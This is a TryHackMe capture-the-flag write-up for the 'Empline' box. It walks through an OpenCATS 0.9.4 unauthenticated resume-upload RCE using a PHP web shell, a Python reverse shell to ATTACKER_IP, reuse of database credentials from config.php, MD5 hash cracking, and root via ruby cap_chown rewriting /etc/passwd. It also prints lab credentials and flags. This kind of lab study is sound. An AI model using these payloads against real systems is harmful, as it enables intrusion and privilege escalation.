









# Empline — TryHackMe Writeup

**Target:** Empline  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Category:** Web Enumeration, Virtual Host Discovery, OpenCATS, Unauthenticated File Upload, Remote Code Execution, MariaDB Credential Discovery, MD5 Hash Cracking, Linux Capabilities (cap_chown), Privilege Escalation

---

## Recon

As usual, I started with Nmap for port scanning as well as enumerating the running services and their versions.

```bash
sudo nmap -sS -sC -sV --reason -o nmap TARGET_IP
```



The scan showed 3 open ports:

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
3306/tcp open  mysql   MariaDB 5.5.5-10.1.48
```

A few things I could immediately conclude from this output:

- **An old SSH version (7.6p1)** on Ubuntu 18.04 (Bionic) — the target still exposes SSH publicly, meaning that if I later obtain credentials, the SSH route will likely be open.
- **Apache 2.4.29 + Ubuntu** — the stack is PHP-based, so I anticipated an attack path on the web side (upload, LFI, etc.).
- **MariaDB 10.1.48 exposed externally (3306)** — this was interesting. A database that should only listen on localhost was in fact exposed, so if the credentials were found, I could access the DB directly from my attacker machine without going through a shell first.

I then continued the recon on the web service running on port 80.

---

## Web Enumeration

I opened the main page on port 80. Nothing stood out visually — just a simple corporate-themed page. However, while reading its **HTML source**, I found a URL that was not visible on the page itself:

```text
http://job.empline.thm/careers
```



This was the first key point. The URL used an internal hostname, `job.empline.thm`, rather than the target IP. That meant the application depends on a **virtual host** — if we access it directly by IP, we always land on the default page. To open the actual application, that hostname has to be resolved to the target IP.

I added the following entry to `/etc/hosts`:

```text
TARGET_IP job.empline.thm
```

I then opened `http://job.empline.thm/careers`. In its root directory there was a login page that displayed the application version openly:

```text
OpenCATS Version 0.9.4 Countach
```



**OpenCATS** is a PHP-based applicant tracking system (ATS) used to manage job listings and applications. The installed version, **0.9.4 Countach**, is an old version that has not been maintained for a long time. That version was the key to the next stage.

---

## Initial Foothold — OpenCATS RCE

After researching OpenCATS 0.9.4, I found that this version is vulnerable to **Remote Code Execution** through an *unauthenticated file upload* on the career portal (CVE-2021-41560; some sources also refer to it as CVE-2021-47936).

The core of the vulnerability:

- The career portal (*public job application*) can be accessed **without logging in** — anyone who can see a job listing can submit an application.
- The application form accepts an **attachment in the form of a resume**, and the server **does not validate the extension or the content type** of the uploaded file.
- Uploaded files are stored in a web-accessible directory, so a successfully uploaded PHP file can be requested directly and executed by the PHP interpreter.

That combination — "no authentication required" plus "upload without file type validation" — is what turns a public form into a command execution primitive.

For testing, I used the exploit available at [RevCat](https://github.com/Nickguitar/RevCAT)

The exploit is run as follows:

```bash
bash RevCAT.sh http://job.empline.thm
```

How the exploit works (so it is not just "running someone else's script"):

1. **It builds a payload** that starts with the magic bytes `GIF87a` to slip past a shallow file type check, followed by the PHP code `system($_REQUEST[0])`:

   ```php
   GIF87a<?php echo system($_REQUEST[0]); ?>
   ```

2. **It uploads the payload as a resume** to the application endpoint using a multipart form, with the content type forced to PHP:

   ```bash
   curl -skL http://job.empline.thm/ -H "Connection: close" \
     -F resumeFile=@shell;type=application/x-php \
     -F ID="<jobID>" -F candidateID="-1" \
     -F applyToJobSubAction="resumeLoad" --insecure
   ```

   Note `applyToJobSubAction=resumeLoad` — this action is what triggers the resume upload path, and `candidateID=-1` is used to pose as an anonymous candidate.

3. **It triggers execution** by POSTing to the uploaded file and sending the command in the `0` parameter:

   ```bash
   curl -skL -X POST -d "0=id" http://job.empline.thm/upload/<file>
   ```

The command was genuinely executed on the server:



This HTTP-based shell was enough to prove RCE, but it was not comfortable for further enumeration.

---

## Reverse Shell

Because the shell from the exploit was still HTTP command execution based (each command = 1 request, no TTY, no persistent `cd`), I switched to a **Python** reverse shell so I could get a pseudo-terminal (`pty`) and enumerate freely.

Payload executed on the target:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",9004));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

Listener on the attacker machine:

```bash
nc -lvnp 9004
```



With this shell the enumeration process was far more comfortable: I could move between directories, read files, and run commands without the stateless limitation.

---

## Credential Discovery — Database

After obtaining the reverse shell, the first thing I did was comb through the application configuration files. This is usually the quickest place to find credentials, because the application needs a database connection and stores its credentials in plaintext in the config.

Sure enough, at the following location I found database credentials:

```text
/var/www/opencats/config.php
```

The contents of the configuration:

```php
/* Database configuration. */
define('DATABASE_USER', 'james');
define('DATABASE_PASS', 'ng6pUFvsGNtw');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
```

One thing worth making explicit here so it is not misread: **`james` above is a database user, not a system user.** So these credentials cannot necessarily be used to log in to the box — what we can do is use them to get into MariaDB.

Since port 3306 was exposed externally (as seen in the Nmap output), I could go straight into the database and comb through the user table. From that search I found **3 candidate users along with their password hashes**.



The hashes found were 32-character hexadecimal (**MD5**), so they were worth trying on **CrackStation** without brute forcing on my own machine.

Of the 3 hashes, only **1 was successfully cracked**, namely the password for user **george**.



There is an important efficiency note here: rather than spending time brute forcing SSH for all three usernames, trying the cracked result against SSH first is the cheapest step. And indeed, the `george` credentials were valid for login.

---

## Lateral Movement — User `george`

Using the cracked credentials, I successfully logged in as user `george`.

After logging in, I did manual enumeration first (checking the home directory, interesting files, `sudo -l`, cron, and the contents of `/etc/passwd`), but nothing immediately stood out. I therefore continued the enumeration using **LinPEAS** to sweep the configurations that are easy to miss — file permissions, SUID, cron, and capabilities.



LinPEAS served here as a *second pass*: humans tend to overlook small configuration files, whereas LinPEAS sweeps hundreds of locations at once and flags the relevant findings.

---

## Privilege Escalation — Linux Capabilities (`cap_chown`) on Ruby

From the LinPEAS output, an unusual vector was found: the **ruby** binary had the `cap_chown` capability.

What does that mean? `cap_chown` is a Linux capability that allows a process to **change file ownership** — a `chown()` operation that normally only root can perform. Because this capability is attached to the `ruby` binary, anyone who can run `ruby` **inherits** root's `chown` ability for the duration of that process.

My plan:

1. Change the ownership of `/etc/passwd` to us, so the file becomes writable.
2. Insert a new user with UID/GID `0` (root) and a password we choose ourselves.

First step — change the ownership of `/etc/passwd` using the capability attached to ruby:

```bash
ruby -e 'File.chown(1002, 1002, "/etc/passwd")'
```

Verify that the ownership actually changed:

```text
-rw-r--r-- 1 george george 1660 Jul 20  2021 /etc/passwd
```

Note: `/etc/passwd` was now owned by `george` (UID 1002), whereas it originally belonged to `root`. This is proof that the `cap_chown` capability is genuinely exploitable.

Second step — prepare a password hash for the new user. I used the **MD5-crypt (`-1`)** format via `openssl`:

```bash
openssl passwd -1 -salt root root
```

The result:

```text
$1$root$9gr5KxwuEdiI80GtIzd.U0
```

Third step — add a new user line to `/etc/passwd`. Note the UID and GID fields, which I set to `0` so this user automatically has root privileges:

```text
pwn:$1$root$9gr5KxwuEdiI80GtIzd.U0:0:0:root:/:/bin/bash
```

The field order is: `username : password : UID : GID : comment : home : shell`.

Final step — log in to the newly created user:

```bash
su pwn
```

The login succeeded and I immediately gained root access without needing `george`'s password anymore.



---

## Flags

### User

```text
91cb89c70aa2e5ce0e0116dab099078e
```

### Root

```text
74fea7cd0556e9c6f22e6f54bc68f5d5
```